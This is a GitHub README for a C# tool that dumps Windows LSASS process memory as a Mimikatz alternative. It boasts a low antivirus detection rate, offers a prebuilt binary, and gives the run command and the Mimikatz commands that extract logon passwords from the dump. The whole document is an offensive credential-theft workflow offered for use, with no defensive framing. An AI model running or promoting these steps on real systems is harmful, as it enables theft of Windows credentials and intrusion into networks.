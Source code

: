 # LsassDump
Simple LSASS Dumper created using C# as an alternative to using Mimikatz memory dumper

NOTE: You still need Mimikatz installed to read the dumped data. This program only dumps the data.

Antiscan.me results: Detected by 1/26 when running against the unobfuscated executable build.

# Usage
If you don't want to build it by yourself, use the prebuild binary.

```
.\Katzensprung.exe
LSASS process memory dumped to: mini.dmp
```

Here are the commands you will need to use in Mimikatz to access the dumped data:

```
> mimikatz # This will start the program
mimikatz$ sekurlsa::minidump <FileName>
mimikatz$ sekurlsa::logonPasswords
```
